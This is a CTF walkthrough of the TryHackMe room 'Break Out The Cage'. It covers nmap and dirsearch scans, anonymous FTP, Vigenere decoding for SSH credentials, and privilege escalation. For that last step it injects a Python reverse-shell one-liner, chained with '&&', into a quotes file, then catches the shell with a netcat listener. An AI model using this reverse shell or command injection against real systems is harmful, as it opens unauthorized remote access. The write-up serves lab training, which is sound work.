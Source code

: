 # break out the cage
![BOTC](https://user-images.githubusercontent.com/80511498/147870792-2dee2d8b-3fea-4883-8884-3e4f66808154.png)
**Tryhackme break out the cage[easy]** 
https://tryhackme.com/room/breakoutthecage1
## NMAP SCAN 
___
```bash
 starting Nmap 7.92 ( https://nmap.org ) at 2022-01-01 14:09 IST
 Nmap scan report for 10.10.24.112
 Host is up (0.17s latency).
 Not shown: 997 closed tcp ports (reset)
 PORT   STATE SERVICE VERSION
 21/tcp open  ftp     vsftpd 3.0.3
 | ftp-syst: 
 |   STAT: 
 | FTP server status:
 |      Connected to ::ffff:10.17.33.72
 |      Logged in as ftp
 |      TYPE: ASCII
 |      No session bandwidth limit
 |      Session timeout in seconds is 300
 |      Control connection is plain text
 |      Data connections will be plain text
 |      At session startup, client count was 3
 |      vsFTPd 3.0.3 - secure, fast, stable
 |_End of status
 | ftp-anon: Anonymous FTP login allowed (FTP code 230)
 |_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 |   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
 |   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
 |   256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
 |_http-title: Nicholas Cage Stories
 |_http-server-header: Apache/2.4.29 (Ubuntu)
 No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
 TCP/IP fingerprint:
 OS:SCAN(V=7.92%E=4%D=1/1%OT=21%CT=1%CU=32285%PV=Y%DS=5%DC=T%G=Y%TM=61D0137F
OS:%P=x86_64-pc-linux-gnu)......

 Network Distance: 5 hops
 Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 TRACEROUTE (using port 199/tcp)
 HOP RTT       ADDRESS
 1   23.35 ms  10.17.0.1
 2   ... 4
 5   192.15 ms 10.10.24.112

 OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 42.86 seconds
 ```
we can clearly see that 3 ports are open 

|service|port-no|
|---|---|
|ftp|port 21|
|ssh|port 22|
|http|port 80|

 
 
 ## dirserach Scan
 ```bash
  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10877

Output File: /root/.dirsearch/reports/10.10.24.112/_22-01-01_14-11-05.txt

Error Log: /root/.dirsearch/logs/errors-22-01-01_14-11-05.log

Target: http://10.10.24.112/

[14:11:06] Starting: 
[14:11:08] 301 -  311B  - /html  ->  http://10.10.24.112/html/
[14:11:13] 403 -  277B  - /.ht_wsr.txt
[14:11:13] 403 -  277B  - /.htaccessBAK
[14:11:13] 403 -  277B  - /.htaccess.orig
[14:11:13] 403 -  277B  - /.htaccess.save
[14:11:13] 403 -  277B  - /.htaccessOLD
[14:11:13] 403 -  277B  - /.htaccess_sc
[14:11:13] 403 -  277B  - /.htaccess_extra
[14:11:13] 403 -  277B  - /.htaccess_orig
[14:11:13] 403 -  277B  - /.htaccess.sample
[14:11:13] 403 -  277B  - /.htm
[14:11:13] 403 -  277B  - /.htaccessOLD2
[14:11:13] 403 -  277B  - /.html
[14:11:13] 403 -  277B  - /.htpasswds
[14:11:13] 403 -  277B  - /.httr-oauth
[14:11:13] 403 -  277B  - /.htaccess.bak1
[14:11:13] 403 -  277B  - /.htpasswd_test
[14:12:08] 200 -  737B  - /html/
[14:12:09] 301 -  313B  - /images  ->  http://10.10.24.112/images/
[14:12:09] 200 -    4KB - /images/
[14:12:10] 200 -    2KB - /index.html
[14:12:33] 301 -  314B  - /scripts  ->  http://10.10.24.112/scripts/
[14:12:33] 200 -    2KB - /scripts/
[14:12:33] 200 -    2KB - /auditions/
[14:12:33] 403 -  277B  - /server-status
[14:12:34] 403 -  277B  - /server-status/

Task Completed
```
i did a directory search and found few page's

so i looked at every page carefully and found nothing on /html, script and images
but i found something on /auditions page an audio , i will check it later
 ![Screenshot (74)](https://user-images.githubusercontent.com/80511498/147870967-adab6879-559b-4b3e-986d-1f286df4189e.png)


## FTP 
```bash
$ftp 10.10.186.32
Connected to 10.10.186.32.
220 (vsFTPd 3.0.3)
Name (10.10.186.32:root): Anonymous            
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
226 Directory send OK.
ftp> get dad_tasks
local: dad_tasks remote: dad_tasks
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dad_tasks (396 bytes).
226 Transfer complete.
396 bytes received in 0.00 secs (2.0195 MB/s)
ftp> 
``` 
  so we got a file named dad_tasks
  ```bash
  # file dad_tasks 
    dad_tasks: ASCII text, with very long lines (396), with no line
	terminators
  ```
  so its ASCII text so it must be base encoding maybe base64 
  and yes it is and look what i found
  ```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
  ```
  and it looks like a  ceaser's cipher ummmmmm!!! but no its not 
  it is similer but uses vigenere cipher  
 - have two solution for that 
 - first find the key which is basiclly required to crack the cipher
   which you can basiclly find in the audio file is using spectrogram
 - use the following link to see the crack the audio cipher 
   - https://academo.org/demos/spectrum-analyzer/
    ![Screenshot (76)](https://user-images.githubusercontent.com/80511498/147871004-aab24a08-8437-4f92-bbf5-7801b1682fa6.png)

 - another link which will directly crack the cipher and will not need key to crack the cipher
https:www.guballa.de/vigenere-solver

** you will get the password for weston **
and the first answer 

# ssh

![Screenshot (78)](https://user-images.githubusercontent.com/80511498/147871037-2cf09c8b-1acd-433c-b138-c29e3502f3aa.png)


i looked around and found something

![Screenshot (86)](https://user-images.githubusercontent.com/80511498/147871688-b12f8f11-cb2a-4463-8957-7ce0f48d362f.png)

and its a bash file and is of no use to us ,so i tried searching again and looked around some files
and got something in opt 

![Screenshot (84)](https://user-images.githubusercontent.com/80511498/147871979-f8a3929b-cb51-418a-b1ac-c4f95ee81478.png)

lets see the spread_the_quotes.py

![Screenshot (85)](https://user-images.githubusercontent.com/80511498/147872047-468b3040-0a88-4017-ac23-e43aef25bb0d.png)

the quotes file can be used to put reverse shell
and we put in "hello" and && it bascily test line if hello print then it must be working 

```bash
"hello" && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
now use netcat to listen to the port 
```bash
nc -lvnp 4242
```
and we got in 

```bash
 ┌──(kali㉿MSI)-[~]
└─$ nc -lvnp 4444 
Listening on 0.0.0.0 4444
Connection received on 10.10.149.48 43656
cage@national-treasure:~$ ls
ls
email_backup  Super_Duper_Checklist
cage@national-treasure:~$ cat Super_Duper_Checklist
cat Super_Duper_Checklist
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{user flag here}
cage@national-treasure:~$ 
```
now you can look into the email files you will find again find a vigenere cipher just crack it and you will get the root access
and you can find the root flag in /root/email_backup
```bash
cat email_2
From - master@ActorsGuild.com
To - SeanArcher@BigManAgents.com

Dear Sean

I'm very pleased to here that Sean, you are a good disciple. Your power over him has become
strong... so strong that I feel the power to promote you from disciple to crony. I hope you
don't abuse your new found strength. To ascend yourself to this level please use this code:

THM{root flag here}

Thank you

Sean Archer
```
 
 
		

